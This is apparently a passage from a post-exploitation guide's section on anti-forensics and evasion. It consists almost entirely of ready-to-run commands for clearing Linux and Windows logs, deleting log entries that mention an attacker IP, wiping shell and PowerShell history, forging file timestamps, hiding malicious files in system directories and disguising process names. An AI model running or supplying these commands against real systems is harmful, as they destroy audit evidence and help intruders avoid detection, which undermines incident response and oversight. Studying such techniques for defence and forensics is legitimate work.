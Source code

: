 ```bash
# - Legitimate processes appear in logs
```

### **Anti-Forensics and Evasion**

**What anti-forensics involves:** Techniques to hide activities, remove evidence, and evade detection during post-exploitation activities.

```bash
# Log manipulation and cleaning
## Linux log cleaning
# Clear specific logs
> /var/log/auth.log                          # Clear authentication log
> /var/log/syslog                            # Clear system log
> /var/log/apache2/access.log                # Clear web server access log

# Remove specific entries
sed -i '/attacker_ip/d' /var/log/auth.log    # Remove entries containing attacker IP
grep -v "malicious_command" /var/log/auth.log > /tmp/clean.log && mv /tmp/clean.log /var/log/auth.log

# Clear command history
history -c                                   # Clear current session history
> ~/.bash_history                            # Clear bash history file
unset HISTFILE                               # Disable history logging
export HISTSIZE=0                            # Set history size to 0

## Windows log manipulation
# Clear Windows event logs
wevtutil cl Security                         # Clear Security log
wevtutil cl System                           # Clear System log
wevtutil cl Application                      # Clear Application log

# PowerShell history clearing
Remove-Item (Get-PSReadlineOption).HistorySavePath -Force

# Timestamp manipulation
## Linux timestamp modification
touch -r /bin/ls /tmp/malicious.sh           # Copy timestamp from legitimate file
touch -d "2020-01-01 12:00:00" /tmp/file     # Set specific timestamp

## Windows timestamp modification
powershell -c "(Get-Item 'C:\temp\file.exe').LastWriteTime = '01/01/2020 12:00:00'"

# File and directory hiding
## Linux file hiding
# Hidden files (start with dot)
mv malicious.sh .hidden_file

# Hiding in common directories
cp malicious.sh /usr/bin/.system_update
cp malicious.sh /var/tmp/.cache_cleanup

## Windows file hiding
# Set hidden attribute
attrib +h +s C:\temp\malicious.exe
# Hide in system directories
copy malicious.exe C:\Windows\System32\drivers\.hidden.exe

# Process hiding and masquerading
## Linux process masquerading
# Change process name
exec -a "system_update" ./malicious_binary

```